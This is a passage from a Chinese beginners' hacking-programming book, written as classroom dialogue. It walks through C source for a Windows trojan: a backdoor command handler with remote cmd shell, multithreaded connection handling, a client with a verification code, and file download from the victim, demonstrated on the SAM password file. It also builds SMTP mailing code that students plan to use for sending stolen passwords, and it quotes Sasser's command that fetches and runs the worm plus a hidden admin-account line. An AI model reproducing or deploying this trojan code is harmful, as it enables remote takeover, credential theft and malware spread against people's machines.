            mciSendString("set cdaudio door open", NULL, 0, NULL);
        }

        // 关闭光驱
        if(strcmp(cmd,"close") == 0)
        {
            mciSendString("Set cdaudio door closed wait", NULL, 0, NULL);
        }

        // 交换鼠标左右键
        if(strcmp(cmd,"x") == 0)
        {
            SwapMouseButton(1);
        }

        // 恢复鼠标左右键
        if(strcmp(cmd,"r") == 0)
        {
            SwapMouseButton(0);
        }

        // 得到 cmd shell
        if(strcmp(cmd,"shell") == 0)
        {
            cmdshell(clientFD);
            send(clientFD, "Shell OK\n\r", sizeof("Shell OK\n\r"), 0);
        }

        // 退出木马，还可再连接
        if(strcmp(cmd,"quit") == 0)
        {
            closesocket(clientFD);
            return;
        }

        // 木马退出程序
        if(strcmp(cmd,"exit") == 0)
        {
            closesocket(clientFD);
            exit(0);
        }

        if(strlen(cmd))
            send(clientFD, "door>", sizeof("door>"), 0);
        Sleep(10);
    }
}


```

“我们测试一下，”老师说道，“我们登录一个用户后，再开一个 cmd 窗口登录，都可以成功！如图 4.5。完成了多线程的编程。”
图 4.5

### 4.1.3 多线程中的同步

小菜们叫道：“哈哈，多线程的实现也不过如此嘛！简单，简单，happy，happy！”

“不是这样，大家请注意。”老师提醒道，“这个程序比较简单，是因为各个线程间没有太多的关联，而且我们没有考虑同步的问题。”

“如果线程之间，或线程和主进程间有相互联系的话，就会有一个线程同步的问题。”

“线程同步？”

“对，在编程体内，如果该线程完全独立，与其他线程没有数据存取等资源操作上的冲突，则可按照通常单线程的方法进行编程。但是，在多线程处理时，线程之间经常要同时访问一些资源。由于对共享资源进行访问引起冲突是不可避免的，所以 Win32 API 提供了多种同步控制对象来解决共享资源访问冲突，就是线程同步。”

“这些同步对象的访问控制，都会使用到一个等待函数 WaitForSingleObject()。”

#### 函数原型

```c
DWORD WaitForSingleObject(
    HANDLE hHandle,
    DWORD dwMilliseconds
);
```

#### 参数

第一个参数 hHandle 为等待对象的 handle。

第二个参数 dwMilliseconds 为等待的时间，如果设为 0，立即返回；如果设为 INFINITE，则无限等待。

#### 说明

如果函数失败，返回 WAIT_FAILED；如果等待的对象变成激发状态，返回 WAIT_OBJECT_0；如果等待对象变成激发状态之前，等待时间结束了，将返回 WAIT_TIMEOUT。

线程在等待状态时，只消耗很少的 CPU 时间。所以使用等待函数既可以保证线程的同步，又可以提高程序的运行效率。

- 1. 互斥体对象

Mutex 对象的状态在它不被任何线程占用时才有信号，而当它被占用时则无信号。Mutex 对象很适合用来协调多个线程对共享资源的互斥访问。使用步骤如下。

首先，建立互斥体对象，得到句柄。

```c
HANDLE hMutex = CreateMutex(
    NULL,   // no security attributes
    FALSE   // initially not owned
);
``````c
"MutexForww0830");    // name of mutex
```

然后，在线程访问共享资源前，调用 `WaitForSingleObject` 函数，参数为互斥对象句柄，等待无限长时间：`dwWaitResult = WaitForSingleObject(hMutex, INFINITE);`，如果没有其他线程占用该互斥体对象，则该线程就锁定了互斥对象，接着就可以使用共享资源。当共享资源访问结束后，要释放对互斥体对象的占用：`ReleaseMutex(hMutex);`。互斥体对象在同一时刻只能被一个线程占用，当互斥体对象被一个线程占用时，若有另一线程想占用它，则必须等到前一线程 `ReleaseMutex()` 释放后才能成功。通过这样来实现线程间的同步。

#### （2）信号对象

信号对象允许同时对多个线程共享资源进行访问，在创建对象时指定最大可同时访问的线程数。当一个线程申请访问成功后，信号对象中的计数器减一，调用 `ReleaseSemaphore` 函数后，信号对象中的计数器加一。其中，计数器值大于或等于 0，但小于或等于创建时指定的最大值。

按下列步骤使用该对象。首先，创建信号对象。

```c
HANDLE hSemaphore = CreateSemaphore(
    NULL,    // no security attributes
    10,      // initial count
    10,      // maximum count
    NULL);   // unnamed semaphore
```

或者打开一个信号对象。

```c
HANDLE hSemaphore = OpenSemaphore(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    LPCTSTR lpName
);
```

然后，在线程访问共享资源之前调用：`dwWaitResult = WaitForSingleObject(hSemaphore, INFINITE);`，当返回后就可以使用共享资源。最后完成共享资源访问后，释放对信号对象的占用。

```c
ReleaseSemaphore(
    hSemaphore,    // handle to semaphore
    1,             // increase count by one
    NULL);         // not interested in previous count
```

#### （3）事件对象

事件对象（Event）是最简单的同步对象，它包括有信号和无信号两种状态。在线程访问某一资源之前，需要等待某一事件的发生，这时用事件对象最合适。

事件对象用 `CreateEvent` 函数建立。该函数可以指定事件对象的类型和事件的初始状态。如果是手工重置事件，那么它总是保持有信号状态，直到用 `ResetEvent` 函数重置成无信号的事件。如果是自动重置事件，那么它的状态在单个等待线程释放后会自动变为无信号。用 `SetEvent` 可以把事件对象设置成有信号状态。在建立事件时，可以为对象命名，这样其他进程中的线程可以用 `OpenEvent` 函数打开指定名字的事件对象句柄。

#### （4）临界区对象

在临界区中异步执行时，它只能在同一进程的线程之间共享资源处理。使用时先定义一个 `CRITICAL_SECTION` 结构的临界区对象，在进程使用之前调用如下函数对对象进行初始化：`VOID InitializeCriticalSection(LPCRITICAL_SECTION);`，当一个线程要进入临界区时，调用函数 `EnterCriticalSection` 或者 `TryEnterCriticalSection`，当线程要求退出临界区时，调用函数 `LeaveCriticalSection`，释放对临界区对象的占用，供其他线程使用。

> “哎哟，不懂，不懂。”小菜们抱着头嚷道，“说个实际的例子吧。”

“好的。比如刚才那个多线程木马，主线程中 accept 一个用户后，把生成的 socket 作为参数传递给子线程函数。在子线程里，做的第一件事情就是把 socket 参数赋给本地变量使用。”

“对啊，是这样啊，有问题吗？”

“单线程不会有任何问题，但多线程中会有一点小小的问题。”

“我们考虑极端情况。当第一个用户连接来时，主线程 accept，建立一个子线程，如果子线程里还没来得及为参数 socket 赋值时，又有另一个用户连接，主进程又 accept，此时 clientFD 的值就变了。从而第一个子线程和第二个子线程的 clientFD，都是第二次 accept 生成的 socket 值，从而产生错误。”

“哦！是这样啊！”

“所以我们使用同步的方法，保证线程里面的参数赋值之后，主进程才能 accept 其他用户的连接。我们使用事件的方法，实现刚才程序的同步。”

建立事件函数的原型：

```c
HANDLE CreateEvent(
    LPSECURITY_ATTRIBUTES lpEventAttributes,
    BOOL bManualReset,
    BOOL bInitialState,
    LPCTSTR lpName
);
```

参数：

- 第一个参数指向安全属性结构 `SECURITY_ATTRIBUTES`，在其里面，可以设定返回的线程 handle 能否被子进程继承；如果为 `NULL`，则不能被继承。
- 第二个参数为 `TRUE` 表示自动设定，为 `FALSE` 表示创建一个非自动设定。
- 第三个参数为 `TRUE` 表示创建一个有信号事件对象，为 `FALSE` 表示创建一个无信号事件对象。
- 第四个参数为事件对象名称。

> “加入到我们木马程序中，就是在建立木马功能子线程前，用 CreateEvent 创建一个事件，然后开启线程，等待事件信号的发生。”

```c
while(1)
{
    SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&AddrSize);
    // 建立事件
    hEvent = CreateEvent(NULL,          // 将安全属性结构设为NULL
                         FALSE,         // 不自动设定
                         FALSE,         // 创建无信号事件
                         NULL);         // 事件对象名称为NULL
    // 开启每个客户处理线程
    CreateThread(NULL,                  // 线程的安全属性为NULL
                 NULL,                  // 缺省的堆栈和主进程相同
                 (LPTHREAD_START_ROUTINE)threadfun, // 线程函数为threadfun
                 (VOID*) clientFD,      // 线程的参数为clientFD
                 NULL,                  // 线程不挂起，直接执行
                 NULL);                 // 不保存线程的标识号
}
```

```c
// 等待事件，在线程里保存了参数clientFD的值后，会SetEvent
WaitForSingleObject(hEvent, INFINITE);
CloseHandle(hEvent);
Sleep(100);
```

“而在线程函数 threadfun 里面，在保存了 socket 的值后，设置事件信号，才执行后面木马的功能，外面主线程才继续执行下去。”

```c
void threadfun(void *cs)
{
    SOCKET clientFD=(SOCKET)cs;
    // 设置事件
    SetEvent(hEvent);
}
```

“哦，说了这么多，其实使用起来这么简单啊。”小菜们点点头说道。

“是的，事件的编程是这样，其他的同步方法也类似。大家只要明白了原理和思路，实现起来是比较简单的事情。”

## 4.2 TCP协议和木马中的高级应用

老师看看时间，说道：“反正耽搁了这么多时间，索性继续把木马功能深入下去！DLL 的编程就到下次再说了。”

“好啊，好啊，”大家高兴地说道，“三心二意就成了小猫钓鱼了。”

“钓，是怎么样的钓？沉鱼落雁钓；猫，是什么样的猫？吊额金睛猫！嗯，我们还是继续深入讲解 TCP 协议簇的编程。TCP 协议是可靠的、面向连接的协议，很多著名常用的协议都建立在它之上。我们也可以使用它在木马中实现很多功能。”

### 4.2.1 客户端验证——验证码

“刚才我们使用的是密码验证，我们也说了，可以用一个专门的客户端，来实现验证的功能。”

“如果验证的话，使用密码就足够了啊，再写一个客户端多麻烦。”小菜们伸伸懒腰说道。

“对，但刚才都是用标准的 telnet 来作客户端的，有些需要双方交互的功能，比如传送文件，就不能实现。我们有了专门的客户端后，才可以实现更多的功能。”

“哦。”

“我们把客户端的框架搭好，才能作更多的事情。第一个功能就是自动验证功能。”

“客户端先初始化网络 DLL。”

```c
WSADATA ws;
WSAStartup(MAKEWORD(2,2),&ws);
```

“然后建立 socket，`sockfd = socket(AF_INET, SOCK_STREAM, 0);`”

“接着连接服务器。流程和最初讲解的例子是一样的。”

```c
// 连接对方

their_addr.sin_family = AF_INET;          /* 协议类型是INET */
their_addr.sin_port = htons(830);         /* 连接对方830端口 */
their_addr.sin_addr.s_addr = inet_addr(argv[1]); /* 连接对方的IP */
connect(sockfd, (struct sockaddr *)&their_addr, sizeof(struct sockaddr));
```

“如果连接成功，就自动发送预先定义的验证码。”

```c
char g_verify[] = "ww0830";
// 发送验证码
send(sockfd, g_verify, sizeof(g_verify)-1, 0);
```

“一切顺利，就提供一个 shell，显示服务端的返回，并提示用户输入命令。”

```c
while(1)
{
    // 接收数据，并打印出来
    numbytes=recv(sockfd, buf, MAXDATASIZE, 0);
    if(numbytes==SOCKET_ERROR)
    {
        closesocket(sockfd);
        break;
    }
    printf("%s", buf);
    buf[0]='\0';
    scanf("%s", buf);
}
```

“而对于服务端，就稍微改改，有用户连接后，就接收客户端验证码并进行验证。”

```c
// 接收
if(recv(clientFD, Buff, 1, 0)==SOCKET_ERROR)
{
    closesocket(clientFD);
    return;
}
```

“如果和预先设置的验证码相同，就进入木马功能，如果不同，就关闭对方的连接。”

```c
// 验证码判断
if(strcmp(cmd, g_verify)!=0)
{
    closesocket(clientFD);
    return;
}
```

“编写较大的网络程序时，可以把一些协议定义单独写在一个文件中，比如密码、验证码等一些宏定义。这样服务端、客户端双方可以直接 include 使用，避免协议的不一致而导致问题。”

“这下有了验证，也有了客户端，可以传文件了吧？我要下超级女生啊！！！！”

“好的，好的，我们来看看文件的传送。在 TCP 协议中，文件传输使用的是 FTP 协议。”

### 4.2.2 FTP协议

FTP 的全称是 File Transfer Protocol，即文件传输协议。由 FTP 提供的文件传送是将一个完整的文件从一个系统复制到另一个系统中。

与 Telnet 类似，FTP 最早的设计是用于两台不同的主机，这两个主机可能运行在不同的操作系统下、使用不同的文件结构，并可能使用不同字符集。但不同的是，Telnet 获得异构性是强制两端都采用同一个标准：使用 7 比特 ASCII 码的 NVT。而 FTP 是采用另一种方法来处理不同系统间的差异。FTP 支持有限数量的文件类型（ASCII、二进制，等等）和文件结构（面向字节流或记录）。

要使用 FTP，就需要有登录服务器的账号，或者通过允许匿名 FTP 服务器来使用。

#### 4.2.2.1 协议简介

FTP 是用于文件传输的 Internet 标准，它采用两个 TCP 连接来传输一个文件。一个是控制连接，用来传送客户给服务器的命令和服务器给出的应答；另一个是数据连接，用来上传下载文件或传输目录列表信息。

- 1. 控制连接中，服务器以绑定 21 端口监听，等待客户的连接。客户端主动连接服务端的 21 端口。控制连接始终等待客户与服务器之间的通信。该连接将命令从客户传给服务器，并传回服务器的应答。由于命令通常是由用户键入的，所以控制连接的目的是“最大限度地减少延迟”。
- 2. 每当一个文件在客户与服务器之间传输时，就创建一个数据连接。

客户端向服务器发出的命令，都是 3 或 4 个字节的大写 ASCII 字符。常用 FTP 命令有：

| 命令 | 说明 |
|---|---|
| ABOR | 放弃先前的 FTP 命令和数据传输 |
| LIST filelist | 列表显示文件或目录 |
| PASS password | 服务器上的口令 |
| PORT n1, n2, n3, n4, n5, n6 | 客户端 IP 地址（n1、n2、n3、n4）和端口（n5×256+n6） |
| QUIT | 从服务器注销 |
| RETR filename | 检索（取）一个文件 |
| STOR filename | 存储（放）一个文件 |
| SYST | 服务器返回系统类型 |
| TYPE type | 说明文件类型：A 表示 ASCII 码，I 表示图像 |
| USER username | 服务器上用户名 |

服务器给出的应答是 3 位数字，并附有对数字的报文解释。这样用户不用记忆所有数字回答代码的含义，可以通过阅读报文串来确定应答的含义。

应答说明：

| 代码 | 说明 |
|---|---|
| 1yz | 肯定预备应答。它仅仅是在发送另一个命令前期待另一个应答时启动 |
| 2yz | 肯定完成应答。一个新命令可以发送 |
| 3yz | 肯定中介应答。该命令已被接受，但另一个命令必须被发送 |
| 4yz | 暂态否定完成应答。请求的动作没有发生，但差错状态是暂时的，所以命令可以过后再发 |
| 5yz | 永久性否定完成应答。命令不被接受，并且不再重试 |
| x0z | 语法错误 |
| x1z | 信息 |
| x2z | 连接。应答指控制或数据连接 |
| x3z | 鉴别和记帐。应答用于注册或记帐命令 |
| x4z | 未指明 |
| x5z | 文件系统状态 |

第 3 位数字给出差错报文的附加含义。例如，一些典型的应答：

| 代码 | 含义 |
|---|---|
| 125 | 数据连接已经打开；传输开始。 |
| 200 | 就绪命令。 |
| 214 | 帮助报文（面向用户）。 |
| 331 | 用户名就绪；要求输入口令。 |
| 425 | 不能打开数据连接。 |
| 452 | 错写文件。 |
| 500 | 语法错误（未认可的命令）。 |
| 501 | 语法错误（无效参数）。 |
| 502 | 未实现的 MODE（方式命令）类型。 |

通常每个 FTP 命令都产生一行回答。例如，QUIT 命令可以产生如下应答：“221 Goodbye.”。

要传输文件时，客户通过控制连接，先向服务器发出命令，要求建立数据连接，并把自己要使用的端口号发给服务器。服务器在控制连接上接收到端口号后，连接客户端告诉的端口，从而建立数据连接，传输文件。具体的交互过程可以用图 4.6 来描述。

FTP 不仅可以完成上传和下载文件的功能，还可以列出目录，可以进行用户名和密码的认证，并且可以对文件传送与存储方式进行选择等。

在 Windows 下，有许多可以建立 FTP 服务器的软件，比如 Serv-U、WP_FTP 等，还可以安装 Windows IIS 服务，来建立 FTP 服务器等。

#### 4.2.2.2 FTP 在震荡波中的利用和实现

不仅很多电影服务器、软件服务器使用 FTP 来下载文件，很多蠕虫病毒也使用 FTP 来实现自身的快速传播。比如震荡波蠕虫给网络带来巨大的破坏，其传播速度之快，除了很多机器系统本身具有漏洞之外，还有重要的原因是蠕虫具有很强的在网络上自我复制和传输能力。震荡波蠕虫就是通过 FTP 来实现传播的。

震荡波运行时，分成了多个线程。其中一个就是在本机的 5554 端口上，产生一个小型的 FTP 服务器！震荡波就利用这个小服务器，来向其他有漏洞的主机发送蠕虫本身文件！

接下来，震荡波向其他主机发送攻击代码，如果对方主机有漏洞，则会在 9996 端口绑定个 shell，并且会执行以下的命令：

```c
echo off&echo open [infecting machine's IP] 5554>>cmd.ftp&echo anonymous>>cmd.ftp&echo user&echo bin>>cmd.ftp&echo get [rand]_up.exe>>cmd.ftp&echo bye>>cmd.ftp&echo on&ftp -s:cmd.ftp&[rand]_up.exe&echo off&del cmd.ftp&echo on
```

对上面的命令加以解释。“&” 前后的命令在 Dos 下会依次执行，比如：`net user ww /add & net localgroup administrators ww /add`，就会先添加个名为 ww 的用户，再将 ww 加入到管理员组中。

这里震荡波先使用重定向符号“>>”向 `cmd.ftp` 文件中输入：

```c
open [infecting machine's IP] 5554  // 连接 5554 端口，即进入小型 FTP 服务器
anonymous                           // 用户名，为匿名
```

```text
user            // 密码
bin             // 二进制模式
get [randi]_up  // 接收震荡波蠕虫的文件！
bye             // 退出FTP服务器
```

相信对利用过 Unicode 漏洞入侵的人都不会陌生吧，呵呵。然后再用经典的 `ftp -s:cmd.ftp`，即用 cmd.ftp 内的参数执行 ftp，完成下载，最后执行震荡波蠕虫文件，和删除 cmd.ftp、[randi]_up.exe，这样，就完成了震荡波从一台主机向另一台主机的传播！

## 小结

这下大家对蠕虫的传播方式有所了解了吧，可以看出，要防止自己中招的话，第一需要注意漏洞公告，勤打补丁，没有漏洞就不会中蠕虫病毒；第二关闭没有必要的服务；第三安装防火墙，让蠕虫不能连接到有漏洞服务的端口，那么也不会中蠕虫。

#### 4.2.2.3 利用木马传送文件

“回到我们的木马上。”老师说道，“对于我们的木马，已经拥有客户端和服务端，并不一定需要一个 FTP 服务器，只要能完成上传下载就好了。”

“对，对，对！能下载东西就好了！”

“对于客户端来说，用一个关键字 `download` 表明要下载服务器上的文件。当用户输入 `download` 的时候，要求输入要下载的服务器上文件的名字，以及存在本机上的文件名。”

```c
if(strcmp(buf, "download")==0)
{
    char strFileOnServer[1024], strFileStore[1024];
    // 输入要下载的文件名
    printf("Input file name on server:");
    scanf("%s", strFileOnServer);
    // 输入要保存的文件名
    printf("Input file name to store:");
    scanf("%s", strFileStore);
}
```

“接着把 `download` 关键字和要下载的文件名传送给服务端。”

```c
numbytes=send(sockfd, "download", strlen("download"), 0);
numbytes=send(sockfd, strFileOnServer, strlen(strFileOnServer), 0);
```

“客户端就可以进入接收文件模式。客户端接收文件的功能写入到一个函数 `recvFile()` 中。其原型为 `void recvFile(char *fileName, SOCKET s)`，该函数的第一个参数为要保存的文件名，需要是绝对全路径；第二个参数为和服务端连接的 socket。”

“在 `recvFile` 函数里面，首先根据参数打开要保存的文件，`fp=fopen(fileName,"wb");`，然后就开始接收服务端传来的文件内容，接收一次写入文件一次。”

```c
// 接收服务端发送来的文件内容
lBytesRead = recv(s, Buff, 1024, 0);
// 将接收的内容写入要保存的文件中
fwrite(Buff, 1, lBytesRead, fp);
```

“为了避免文件过大，服务端一直发送文件内容，而客户端来不及接收，超过客户端的协议栈大小，我们加入同步的一个步骤。”

“哦？这里也提到了同步？”小菜们想起了多线程编程中的同步。

“是的，但这是网络服务/客户端双方的传送同步了。说起来也简单。客户端在将内容写入文件后，会发一个标志给服务端。服务端才继续发文件的下一部分内容。”

```c
// 回送同步标志
lBytesRead = send(s, Flag, 1, 0);
```

“大家注意，大家注意，如果没有加入同步这个步骤，很有可能在发送了 8K 的时候，出现文件发不动的情况，特此提醒！”

“哦！记住了！”小菜们齐声答道。

“嗯，我们把接收文件内容、存储文件内容、回送标志都封在一个循环里面。就像下面一样。”

```c
while(1)
{
    // 接收服务端发过来的文件内容
    lBytesRead = recv(s, Buff, 1024, 0);
    Buff[lBytesRead] = '\0';
    // 将接收的内容写入要保存的文件中
    fwrite(Buff, 1, lBytesRead, fp);
    // 回送同步标志
    lBytesRead = send(s, Flag, 1, 0);
}
```

“但什么时候跳出这个循环呢？”老师问道。

“当然是文件传输完毕啊！”

“对，所以文件结束时，服务端发送一个 `FILEEND` 字符串作为结束标志，客户端接收到这个标志后，就关闭文件，退出文件接收模式。”

```c
// 文件结束，服务端会发送FILEEND作为结束标志
if(Buff[0] == 'F' && Buff[1] == 'I' && Buff[2] == 'L'
&& Buff[3] == 'E' && Buff[4] == 'E' && Buff[5] == 'N' && Buff[6] == 'D')
{
    // 此时关闭文件，退出文件接收模式
    fclose(fp);
    printf("Received file:%s Size:%dK\n", fileName, total);
    // 回送同步标志
    lBytesRead = send(s, Flag, 1, 0);
    return;
}
```

“客户端程序的接收文件模式函数合起来如下：”

```c
// 接收文件模式
void recvFile(char *fileName, SOCKET s)
{
    FILE *fp;
    char Buff[1024];
    char Flag[3] = "w";
    if((fp=fopen(fileName,"wb"))==NULL)
    {
        printf("Open file store error!\n");
        return;
    }
    int lBytesRead;
    int total = 0;
    while(1)
    {
        // 接收服务器端发送过来的文件内容
        lBytesRead = recv(s, Buff, 1024, 0);
        if(lBytesRead <= 0)
        {
            printf("recv err !break!\n");
            break;
        }
        //Buff[lBytesRead] = '\0';
        // 文件结束，服务端会发送FILEEND 作为结束标志
        //if(strcmp(Buff, "FILEEND")==0)
        if(Buff[0] == 'F' && Buff[1] == 'I' && Buff[2] == 'L'
           && Buff[3] == 'E' && Buff[4] == 'E' && Buff[5] == 'N' && Buff[6] == 'D')
        {
            // 此时关闭文件，退出文件接收模式
            fclose(fp);
            printf("Recved file:%s Size:%d0K\n", fileName, total);
            // 回送同步标志
            lBytesRead = send(s, Flag, 1, 0);
            return;
        }
        // 将接收的内容写入要保存的文件中
        if((lBytesRead=fwrite(Buff,1,lBytesRead,fp)) == NULL)
        {
            printf("Write file error!");
            return;
        }
        else
        {
            printf("write file %d\n", lBytesRead);
        }
        total += lBytesRead;
        // 回送同步标志
        lBytesRead = send(s, Flag, 1, 0);
        if(lBytesRead <= 0)
        {
            printf("send flag err break!\n");
            break;
        }
    }
}
```

“对应的，服务端接收到关键字 `download` 后，接着需要接收待下载的文件名。”

```c
if(strcmp(cmd, "download") == 0)
{
    // 接收要下载的文件名
    if(recv(clientFD, cmd, 1024, 0) == SOCKET_ERROR)
    {
        closesocket(clientFD);
        return;
    }
    cmd[lBytesRead] = '\0';
}
```

“接收到文件名后，一定要把文件名字字符串的末尾写成结束符 `\0`，这样才能正确打开文件。和客户端的流程相对应，当服务端接收到要下载的文件名后，就进入到发送文件模式中。发送文件模式的功能在 `sendFile` 中完成，`void sendFile(char *fileName, SOCKET s)`，第一个参数为要传送的文件名，为服务器上文件的绝对全路径；第二个参数为 `socket` 的值，通过它和客户端进行联系。”

“在 `sendFile` 函数中，首先打开要传送的文件，`fp=fopen(fileName,"rb")`。每读一次文件内容，就发送给客户端一次，然后等待并接收到同步标志后，才再读下一条内容并传送。”

```c
while((i=fread(buf,1,sizeof(buf),fp)))
{
    // 发送文件内容
    real = send(s, buf, i, 0);
    // 接收同步标志
    real = recv(s, buf, 1, 0);
}
```

“当文件发送完毕后，关闭文件，发送结束字符串 `FILEEND`，当回收到同步字符后，再发送提示信息，退出文件发送状态。”

```c
fclose(fp);
// 文件发送完毕，发送FILEEND 结束标志字符串
send(s, "FILEEND", strlen("FILEEND"), 0);
// 结束标志的同步
real = recv(s, buf, 1, 0);
// 提示
send(s, "File download OK.\n\nacmd>", strlen("File download OK.\n\nacmd>"), 0);
```

老师说道：“我们合起来，服务端和客户端传送文件的流程如图 4.7。”


“具体程序放在光盘图书相关第四章‘两端传文件’文件夹里面。我们做下测试，传送服务端位于 C 盘下的密码文件——20K 大小的 sam 文件。客户端输入 `download` 关键字后，再输入下载文件名和保存文件名，过一会，文件就顺利完成了传送！如图 4.8。”


图 4.8

> “哦，发送得真快啊。”

“是的，我们加入了同步机制后，TCP 的文件传输还是有保障的。好了，大家休息一下，下节课继续。”

## 4.2.3 SMTP协议

课间老师和学生聊了起来。

“大家上网经常做什么啊？”

“QQ 聊天！”小菜们异口同声地说。

“哦，是啊，QQ 其实是联系工具，而不是聊天工具。你们用久了就会感觉到了。除了它呢，还做什么？”

“那就是网页看看新闻，check 一下电子邮件了。”

“对，大家经常使用电子邮件，有没有想过它是怎么发送接收的呢？”

“我通过 web 访问的喽……” “我安装了 Foxmail，哈哈，每次下载到本机看。”

“嗯，其实邮件的发送与接收都是通过邮件服务器完成的。”

“服务器，服务器，一直都说服务器，究竟什么是服务器啊？”小菜 D 问道。

“服务器……比如，你访问 163 的网页，你上线的时候能够看见网页的内容，知道的确是存在的；当你没上网的时候网页内容也依然存在。那 163 的网页存在哪儿呢？那当然是存放在 163 的 HTTP 服务器上，所以服务器就是帮我们存东西的地方。”

“同样的道理，别人给你发了封邮件，你正好没上线，那么邮件是不是丢了呢？当然不是，它会存放在一个地方，等我们上线的时候再去 check。而存的地方就是我们申请的邮箱服务提供商的邮件服务器。比如你申请了 163 的免费邮箱，那么你的邮件就放在 163 的邮件服务器上。”

“哦，是这个理啊。”

“所以，邮件的收发都是同邮件服务器打交道，当别人发给我们的时候就是用 SMTP 协议，把信发给 163 的邮件服务器。”

“而我们在接收时，比如用 Foxmail 接收邮件，就是用 POP3 协议把邮件从 163 的邮件服务器上收下来，存在本机。”

“现在的商业模式，特别是对于大公司来说，子公司分布全球，所以电子邮件非常重要。我们来看看邮件发送的 SMTP 是如何实现的。”

#### 4.2.3.1 协议简介和实现

SMTP（Simple Mail Transfer Protocol）是简单邮件传输协议，其目的用于发送电子邮件。协议中规定的发送电子邮件的流程是：客户端用 Socket 连接 SMTP 服务器，依次发送以下的 SMTP 命令。

- 1. **EHLO `<Domain>`\r\n**，客户标识自己。比如：**EHLO smtp.126.com**\r\n。
- 2. **MAIL FROM:**，发送者的 Email 地址。比如：**MAIL FROM: lcother@163.net**\r\n。
- 3. **RCPT TO:**，目标 Email 地址。比如：**RCPT TO: target@163.net**\r\n。
- 4. **DATA**\r\n，开始传送数据。
- 5. 发送数据\r\n.\r\n。

> **注意** SMTP 协议只发送信息，至于如何区分 CC、BCC、Subject、Body 等不属于 SMTP 的范围，而是属于 RFC 文档的 MAIL 格式部分。

- 6. **QUIT**\r\n，发送完毕，退出。

以下是经典教程《TCP/IP 详解，卷 1：协议》中绘出的发送过程中的抓包情况。以“>>>”开始的是 SMTP 客户端发出的命令，以三位数字开始的是从 SMTP 服务器发来的应答，如图 4.9。


图 4.9

和协议规定的一模一样。理解了协议，我们实现起来是件简单的事情，根据协议发送一次命令，再接收一次服务器的回复信息，代码如下：

```c
//发送EHLO
ret=send(csock, "EHLO server\r\n", strlen("EHLO server\r\n"), 0);
ret=recv(csock, buf, 4096, 0);

//发送MAIL FROM
ret=send(csock, "MAIL FROM: <ww0830@126.com>\r\n", strlen("MAIL FROM: <ww0830@126.com>\r\n"), 0);
ret=recv(csock, buf, 4096, 0);

//发送RCPT TO
sprintf(tmp, "RCPT TO: <%s>\r\n", mailaddr);
ret=send(csock, tmp, strlen(tmp), 0);
ret=recv(csock, buf, 4096, 0);

//发送DATA，并跟着发送数据
ret=send(csock, "DATA\r\n", strlen("DATA\r\n"), 0);
ret=recv(csock, buf, 4096, 0);
ret=send(csock, sbuf, strlen(sbuf), 0);
ret=recv(csock, buf, 4096, 0);

//发送QUIT
ret=send(csock, "QUIT\r\n", strlen("QUIT\r\n"), 0);
ret=recv(csock, buf, 4096, 0);
```

小菜们试了一下，说道：“奇怪？按照协议这样写的，但怎么不能向 smtp.126.com 服务器发送邮件呢？”

“这是因为安全问题，现在的商业 SMTP 服务器都加入了身份验证。我们继续看。”

#### 4.2.3.2 ESMTP 和发送密码

设计 SMTP 协议时没有考虑安全问题，发信时不需要验证用户账户。从上面的分析可以看到，可以随便填写 `MAIL FROM:` 字段，那就很容易让不怀好意的人冒充其他人，比如说冒充腾讯的 1000 服务器号，或者冒充 Bill.G@Microsoft.com，这可是很恐怖的事情。所以现在像 smtp.126.com 这样的服务器都是采用的 ESMTP，就是带服务器验证的 SMTP 了。在 ESMTP 中，服务器会要求用户提供用户名和密码以便验证身份。其规定发送邮件的流程如下。

- 1. **EHLO `<Domain>`\r\n**，这条命令可以不要，但是按照标准的写法，还是加上好。
- 2. **AUTH LOGIN\r\n**，告诉服务器，要进行验证了。
- 3. **Base64_Username\r\n**，发送经过 Base64 编码的用户名给服务器。
- 4. **Base64_Password\r\n**，发送经过 Base64 编码的密码给服务器。
- 5. **MAIL FROM:\r\n**，发送者的 Email 地址。
- 6. **RCPT TO:\r\n**，目标 Email 地址。
- 7. **DATA\r\n**，开始传送数据。
- 8. 发送数据\r\n.\r\n。
- 9. **QUIT\r\n**，退出。

我们对比了 SMTP 和 ESMTP 协议，就知道在我们程序的实现中，要在 EHLO 之后，发送 `AUTH LOGIN`，然后是用户名的 Base64 编码和密码的 Base64 编码。接下来才是 `MAIL FROM`、`RCPT TO`、`DATA` 数据等。

> **小知识 Base64编码**：Base64 是将二进制数据编码为可显示的字母和数字，用于传送图形、声音和传真等非文本数据。因为字母和数字的个数少于 256，所以它是把 3 个字节的二进制数据转换为 4 个字节的字母和数字。最后再用一个码表来得到可显示的 ASCII 码字符串。

“好，我们就在程序中加上这段吧！”

```c
ret=send(csock, "AUTH LOGIN\r\n", strlen("AUTH LOGIN\r\n"), 0);
//发送AUTH LOGIN
ret = Base64Encode(msg, (const unsigned char *)"ww0830", strlen("ww0830"));
strcat(msg, "\r\n");
ret=send(csock, msg, strlen(msg), 0);
//发送用户名的Base64编码
ret = Base64Encode(msg, (const unsigned char *)"ww0830_12345", strlen("ww0830_12345"));
strcat(msg, "\r\n");
ret=send(csock, msg, strlen(msg), 0);
//发送密码的Base64编码
```

“哈哈，打开信箱，果然收到信了，成功！如图 4.10。”


“嗯，大家要注意，现在邮件服务器把小于一定字节的信定位是垃圾邮件，直接过滤掉，所以要保证”

# 黑客编程入门

成功，需要填充一些东西。”

“哦，”小菜们想起来了，“怪不得有些盗号木马要求填邮箱和密码，它们也是用的这种方法吧？”

“对，是的。”

“哇！那我们也加入密码的获取和传送吧！”小菜B感兴趣地说道。

“是啊，是啊。”大家都嚷道。

“呵呵，有了我们这个程序，发送密码到信箱是很简单的事情，但还没有获得别人的密码啊，发什么东西呢？”

“哦，是啊。那怎么办呢？”

“明文密码的来源，无非几种：一是读取内存里的数据，一是记录键盘输入，还有就是嗅探抓包了。”

“读取内存里的数据涉及到对 Windows 操作系统存储验证结构的分析；键盘记录和我们网络编程这门课又没有太大的关系；和我们相关的就是嗅探抓包。”

“很多协议，FTP、HTTP 都是明文传输，包括我们的 ESMTP 也是，嗅探就可以得到对方的密码。”

老师提醒道：“大家注意，ESMTP 协议也只是 Base64 简单加密，可以很容易还原的。用什么盗号工具，用邮箱传送号时，很容易被别人知道了你的邮箱和密码，到时候，嘿嘿嘿嘿……”

“哦！”大家恍然大悟，“螳螂捕蝉，黄雀在后啊！”

“嗅探的实现我们放在课程的后面再实现。除了发送密码，我们再看看 SMTP 在木马应用中的另一个重要作用。”

#### 4.2.3.3 SMTP 和反弹木马——传送控制端 IP

